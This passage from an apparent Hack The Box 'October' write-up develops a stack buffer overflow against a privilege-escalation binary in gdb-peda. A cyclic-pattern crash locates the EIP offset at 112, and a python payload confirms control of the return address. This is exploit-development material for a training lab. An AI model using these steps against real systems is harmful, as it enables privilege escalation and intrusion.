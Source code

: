 ```bash
Starting program: /root/HTB/October/privesc/ovrflw 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x0
ECX: 0xffffd400 ("QAAmAARAAoAA")
EDX: 0xffffd126 ("QAAmAARAAoAA")
ESI: 0xf7fa1000 --> 0x1e4d6c
EDI: 0xf7fa1000 --> 0x1e4d6c
EBP: 0x6941414d ('MAAi')
ESP: 0xffffd110 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA")
EIP: 0x41384141 ('AA8A')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41384141
[------------------------------------stack-------------------------------------]
0000| 0xffffd110 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA")
0004| 0xffffd114 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAA")
0008| 0xffffd118 ("AAOAAkAAPAAlAAQAAmAARAAoAA")
0012| 0xffffd11c ("AkAAPAAlAAQAAmAARAAoAA")
0016| 0xffffd120 ("PAAlAAQAAmAARAAoAA")
0020| 0xffffd124 ("AAQAAmAARAAoAA")
0024| 0xffffd128 ("AmAARAAoAA")
0028| 0xffffd12c ("RAAoAA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41384141 in ?? ()
```
Finding the offset
```bash
gdb-peda$ pattern_offset AA8A
AA8A found at offset: 112
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112
```
Confirming the offset
```bash
gdb-peda$ run `python3 -c 'print("A"*112 + "BBBB")'`
Starting program: /root/HTB/October/privesc/ovrflw `python3 -c 'print("A"*112 + "BBBB")'`

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x0
ECX: 0xffffd400 ("AAAAAAAABBBB")
EDX: 0xffffd124 ("AAAAAAAABBBB")
ESI: 0xf7fa1000 --> 0x1e4d6c
EDI: 0xf7fa1000 --> 0x1e4d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd130 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd130 --> 0x0
0004| 0xffffd134 --> 0xffffd1d4 --> 0xffffd377 ("/root/HTB/October/privesc/ovrflw")
0008| 0xffffd138 --> 0xffffd1e0 --> 0xffffd40d ("SHELL=/bin/bash")
0012| 0xffffd13c --> 0xffffd164 --> 0x0
0016| 0xffffd140 --> 0xffffd174 --> 0x15942f77
```